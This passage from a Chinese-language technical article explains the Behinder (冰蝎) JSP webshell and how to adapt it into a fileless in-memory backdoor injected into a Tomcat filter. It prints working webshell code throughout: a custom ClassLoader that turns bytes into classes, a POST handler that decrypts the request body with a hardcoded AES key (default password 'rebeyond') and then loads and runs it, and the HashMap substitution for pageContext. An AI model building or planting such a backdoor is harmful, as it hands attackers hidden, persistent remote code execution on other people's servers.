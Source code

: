 ```java
            c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine())))
            .newInstance().equals(pageContext);
    }
%>
```
冰蝎自定义了一个可以解析class字节数组的类加载器U，逻辑为，使用g方法调用super.defineClass，可以将byte[]直接转换为Class对象
```java
class U extends ClassLoader {
    U(ClassLoader c) {
        super(c);
    }
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}
```
判断为post请求后，读取请求体中的数据，拿到进行Base64+AES解码后的字节码数据。
```java
if (request.getMethod().equals("POST")) {
    String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
    session.putValue("u", k);
    Cipher c = Cipher.getInstance("AES");
    c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
    new U(this.getClass().getClassLoader()).g(
        c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine())))
        .newInstance().equals(pageContext);
}
```
#### request和session对象
request对象可以通过其doFilter方法参数中传递的ServletRequest获得，而session可以通过request.getSession()获得
```java
HttpServletRequest request = (HttpServletRequest) servletRequest;
HttpServletResponse response = (HttpServletResponse)servletResponse;
HttpSession session = request.getSession();
```
#### pageContext对象
pageContext对象为jsp九大内置对象，在冰蝎作者[rebeyond](https://xz.aliyun.com/u/8697)的文章[利用动态二进制加密实现新型一句话木马之Java篇](https://xz.aliyun.com/t/2744)中知道，在冰蝎的代码中，服务端需要从pageContext对象中获取出request/response/session。
而在冰蝎3.0 bata7之后不再依赖pageContext对象，只需给在equal函数中传递的object对象中，有request/response/session对象即可，所以此时我们可以把pageContext对象换成一个Map，手动添加这三个对象即可
```java
HashMap pageContext = new HashMap();
pageContext.put("request",request);
pageContext.put("response",response);
pageContext.put("session",session);
```
如果如下图所示，在TomcatInject.java里再写一个类U来继承ClassLoader，在编译之后会生成两个Class文件，导致无法调用class U中的方法

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_48_qzBDlVyO.png)

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_49_YsjCTGig.png)
